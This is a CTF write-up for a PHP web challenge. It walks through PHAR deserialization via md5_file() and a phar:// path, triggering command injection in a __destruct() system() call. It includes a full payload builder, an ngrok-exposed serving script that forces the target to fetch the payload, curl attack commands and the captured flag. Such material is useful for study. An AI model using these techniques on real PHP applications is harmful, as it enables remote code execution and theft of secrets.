

### Source code analysis

The challenge code:

```php
<?php
class User {
    public $avatar_path;
    public $name;
    // who cares
    public $password;
    function __construct($name, $password) {
        $this->name = $name;
        $this->password = $password;
        $this->avatar_path = "avatars/".$name.".png";
        //todo fill the avatar with something meaningful
        system("touch ".$this->avatar_path);
    }
    function __destruct() {
        system("rm ".$this->avatar_path);
    }
}


$file = $_GET['path'];
$res = md5_file($file);
if ($res == FALSE){
    file_put_contents("/tmp/remote_file.jpg",file_get_contents($file));
    // everything is a image if you look at it long enough
    $res = md5_file("/tmp/remote_file.jpg");
}
if ($res == 0xdeadbeef){
    echo "Congratulations! Here is not your flag: ".file_get_contents("flag.txt");
} else{
    echo $res;
}
?>
```

There are two main issues:

1. `md5_file($file)` can be called with a user-controlled path.
2. The `User` class has a `__destruct()` magic method that calls `system()` directly with the `$avatar_path` property.

If we make PHP parse a PHAR file whose metadata is a `User` object, PHP will unserialize that metadata. When the request ends, the `User` object is destroyed and `__destruct()` is called.

If `$avatar_path` holds a value containing command injection, for example:

```bash
x; cat /flag 2>/dev/null; env 2>/dev/null
```

then the actual command becomes:

```bash
rm x; cat /flag 2>/dev/null; env 2>/dev/null
```

This allows reading the flag or environment variables.

### Creating the PHAR payload

Create the file `make_phar.php`:

```php
<?php
class User {
    public $avatar_path;
    public $name;
    public $password;
}

@unlink("payload.phar");
@unlink("payload.jpg");

$p = new Phar("payload.phar");
$p->startBuffering();

$p->addFromString("a.txt", "hello");
$p->setStub("GIF89a<?php __HALT_COMPILER(); ?>");

$u = new User();
$u->name = "hai";
$u->password = "hai";
$u->avatar_path = "x; cat /flag 2>/dev/null; env 2>/dev/null";

$p->setMetadata($u);
$p->stopBuffering();

rename("payload.phar", "payload.jpg");

echo "[+] created payload.jpg\n";
```

Run:

```bash
php -d phar.readonly=0 make_phar.php
```

Result:

```text
-rwxrwxrwx 1 HieuND HieuND 252 Jun  6 09:23 payload.jpg
payload.jpg: GIF image data, version 89a, 16188 x 26736
```

Although the file has a `.jpg` extension, its contents are a valid PHAR with a GIF stub.

### Hosting the payload

Because the app logic is:

```php
$res = md5_file($file);

if ($res == FALSE){
    file_put_contents("/tmp/remote_file.jpg", file_get_contents($file));
    $res = md5_file("/tmp/remote_file.jpg");
}
```

We need to make the first request from `md5_file($url)` fail, then have the second request from `file_get_contents($url)` return the real payload.

Create the file `serve_payload.py`:

```python
#!/usr/bin/env python3
from http.server import BaseHTTPRequestHandler, HTTPServer
import socket

payload = open("payload.jpg", "rb").read()
counter = 0

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        global counter
        counter += 1
        print(f"[+] request #{counter} from {self.client_address}")

        if counter == 1:
            try:
                self.connection.shutdown(socket.SHUT_RDWR)
            except Exception:
                pass
            self.connection.close()
            return

        self.send_response(200)
        self.send_header("Content-Type", "image/jpeg")
        self.send_header("Content-Length", str(len(payload)))
        self.end_headers()
        self.wfile.write(payload)

HTTPServer(("0.0.0.0", 8000), Handler).serve_forever()
```

Run the server:

```bash
python3 serve_payload.py
```

Expose the server with ngrok:

```bash
ngrok http 8000
```

### Forcing the target to download the payload to `/tmp/remote_file.jpg`

Send the request:

```bash
BASE='https://wok-tossed-pineapple-drizzled-with-torched-bread-mnee.gpn24.ctf.kitctf.de'
NGROK='https://lacey-nonorthodox-richard.ngrok-free.dev'

curl -s "$BASE/?path=$NGROK/payload.jpg"
```

In the Python server terminal we see 2 requests:

```text
[+] request #1 from ('127.0.0.1', 39684)
[+] request #2 from ('127.0.0.1', 39698)
127.0.0.1 - - [07/Jun/2026 15:24:59] "GET /payload.jpg HTTP/1.1" 200 -
```

This means:

- The first request from `md5_file($url)` has its connection closed to return `FALSE`.
- The second request from `file_get_contents($url)` receives the real payload.
- The payload is written to `/tmp/remote_file.jpg` on the target server.

### Triggering PHAR deserialization

Once the payload is at `/tmp/remote_file.jpg`, call the endpoint again with `phar://`:

```bash
curl -s "$BASE/?path=phar:///tmp/remote_file.jpg/a.txt"
```

The result returned:



### Flag

```text
GPNCTF{We8_i5_For_WeE85_aNd_5UCk5_PhP_Is_CO01_t0U6h}
```
